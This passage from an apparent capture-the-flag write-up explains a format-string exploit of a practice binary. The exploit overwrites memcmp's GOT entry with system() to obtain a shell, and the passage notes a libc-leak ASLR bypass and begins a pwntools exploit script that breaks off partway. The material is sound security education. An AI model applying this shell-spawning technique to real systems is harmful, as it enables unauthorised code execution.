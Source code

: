 I chose to overwrite the `memcmp()` entry because it is called in the `maybe_admin()` function and we can control the data in the first argument. 

{% highlight c %}
 printf("Enter password: ");
  while ( !fgets(&s, 0x11, stdin) )
    clear_stdin();
  if ( !memcmp(&s, &secretpass, 0x10u) )
  {
    result = puts("Authenticated!");
    is_admin = 1;
  }
{% endhighlight %}

We will want to overwrite the pointer in `memcmp@GOT` with the address of `system()`. 
Then, we will login as an admin user again, but enter `"/bin/sh"` as the password, which will then by passed in as the first argument to `system()`, thereby affording us a shell.

When I first did this exercise, I hardcoded in the address of `system()` in my exploit. However, to get practice, I wrote another exploit that leaked the address of `libc`, by using the format string vulnerability to leak a pointer into `libc` that was stored on the stack, and subtracting from it, its known offset to calculate the base address of `libc`. 
I then added the known offset of `system()` to that value to get the absolute value of `system()`.

***When using the format strings to overwrite the entry in `memcpy@GOT`, one issue that stumped me for a while was that I kept using width values that were too large, which gave me stdout and buffering issues. To overcome this problem, I had to write 1 byte at a time so that not too many bytes were being printed out.***

Putting everything together, here are my solutions to this exercise. 

## Solutions

#### Non-ASLR Bypass 
{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def convertpass(userpass):
  targets=[]
  adminpass=""
  for i in range(0, 32, 8): # split userpass into 4 4-byte chunks
    if i == 24: # need to xor last chunk w/ user (0xa0000) 
      targets.append(int(userpass[i:i+8],16)^0xa0000)
    else:
      targets.append(int(userpass[i:i+8],16))
  for i in targets:
    adminpass+=str(p32(i,endian='little'))
  return adminpass

def exploit(r):
  ## GET ADMIN PASS 
  r.recvuntil("Username:")
  r.sendline("\x00"*14)
  r.recvuntil("Salt:")
  r.sendline("\x00"*16) 
  r.recvuntil("Password:\n")
  userpass = r.recvuntil("\n",16) 
  adminpass = convertpass(userpass)
  log.success("Admin password retrieved")
  r.recvuntil("Choice:")
  r.sendline("3")
  r.recvuntil("password:")